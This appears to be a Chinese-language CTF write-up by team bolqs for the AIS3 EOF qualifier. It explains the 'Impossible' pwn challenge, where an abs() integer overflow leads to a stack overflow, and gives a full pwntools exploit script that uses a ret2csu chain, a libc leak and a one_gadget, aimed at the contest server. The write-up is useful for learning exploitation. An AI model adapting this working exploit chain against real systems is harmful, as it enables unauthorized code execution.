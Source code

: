 # AIS3 eof 初賽 Writeup

隊名: bolqs
18th place
1710 points
pi3la(莊人傑) 1052, zodf0055980(吳宗遠) 658, shyang(陳宇翔) 0

# Pwn

## Impossible

* int len
* abs(0x80000000) = 0x80000000
* read(0, buf, 2147483648)
    * read(int, void*, size_t)
* size_t 是 unsigned 所以可以 overflow
* ret2csu -> one_gadget

```python=
from pwn import *
import time
import sys


def exploit():
    if len(sys.argv) <= 1:
        input('attach to pid: {}'.format(proc.proc.pid))
    csu_init = 0x400866
    call_csu = 0x400850
    puts_got = 0x601018
    read_got = 0x601028
    magic = 0x601000
    pop_r14_r15 = 0x400870
    proc.sendlineafter(b':', '2147483648')
    buf = b'A' * 0x108
    buf += flat(csu_init, 0, 0, 1, puts_got, puts_got, 0, 0, call_csu)
    buf += flat(0, 0, 1, read_got, 0, magic, 8, call_csu)
    buf += flat(0, 0, 1, magic, 0, 0, 0, pop_r14_r15, 0, 0, call_csu)
    buf += b'\x00' * 0x100
    proc.send(buf)
    proc.recvuntil(b':)\n')
    libc = proc.recvuntil(b'\x7f')
    libc = u64(libc + b'\x00\x00')
    libc -= 0x809c0
    log.info('libc: ' + hex(libc))
    one_gadget = libc + 0x10a38c
    one_gadget = libc + 0x4f322
    proc.send(p64(one_gadget))


if __name__ == '__main__':
    context.arch = 'amd64'
    connect = 'nc eductf.zoolab.org 10105'
    connect = connect.split(' ')
    if len(sys.argv) > 1:
        proc = remote(connect[1], int(connect[2]))
    else:
        proc = process(['./impossible'], env={'LD_LIBRARY_PATH': './'})
    exploit()
    proc.interactive()
```
